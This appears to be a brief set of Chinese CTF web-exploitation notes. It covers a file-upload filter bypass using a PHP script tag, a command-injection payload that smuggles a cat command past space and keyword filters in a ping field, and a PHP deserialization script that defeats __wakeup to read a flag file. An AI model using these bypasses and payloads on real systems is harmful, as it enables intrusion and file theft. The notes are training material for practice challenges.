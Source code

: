 #### 文件上传
##### 1、上传文件，发现后台检测了文件内容包含<?，则可以通过一下方法绕过
```javascript
<script language="php">
    //中间写php代码
<srcipt>
```

#### 命令执行
##### 1、在获取所需要的文件时，假如屏蔽了文件名(e.g.flag.php屏蔽了flag)
```
ping 127.0.0.1;a=g;c\a\t$IFS$fla$a.php(同时屏蔽了空格和单引号)
例题:[GXYCTF2019]Ping Ping Ping
```

#### 序列化和反序列化
##### 1、遇到对private的序列化不能直接复制序列化结果
```php
#例题:Web_php_unserialize

<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$a = new Demo('fl4g.php');
$a_1 = serialize($a);
echo $a_1 . "</br>";
$a_1 = str_replace("O:4", "O:+4", $a_1);
echo $a_1 . "</br>";
$a_1 = str_replace("1:", "2:", $a_1);
echo $a_1 . "</br>";
echo base64_encode($a_1)."<br/>";

?> 
```
